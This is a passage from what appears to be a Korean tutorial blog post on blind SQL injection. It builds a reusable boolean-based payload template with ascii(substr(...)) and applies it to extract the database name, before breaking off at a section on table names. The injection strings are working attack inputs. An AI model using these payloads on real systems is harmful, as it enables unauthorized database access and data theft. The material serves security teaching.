 

위의 구문 대로 라면 t가 나와야 한다. 그게 0보다 크므로 글자가 존재한다는 뜻이다.

<br>

따라서 

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select~~~</span>),1,1)>0) and '1'='1

이와 같이 select 부분만 바꿔서 계속 쓸 수 있도록 공격 format을 만들 수 있습니다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.2.4 DB이름 확인하기</span>

***

<br>

DB 이름 확인하는 법은   
select database() 이므로,   
<br>

공격 format   
normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select~~~</span>),1,1)>0) and '1'='1  
에 대입한다.   
<br>

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select database() limit 0,1</span>),1,1)>0) and '1'='1

찾을 때 burp suite을 이용하면 간편하다.....이 직접 찾는 것은 문제 풀이 포스팅에서 깊이 다루도록 하겠습니다.

<img src="/images/2024-06-01-SQLinjection16/image-20240601130937018.png" alt="image-20240601130937018" style="zoom:67%;" />

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.2.5 table이름 확인하기</span>

***

<br>
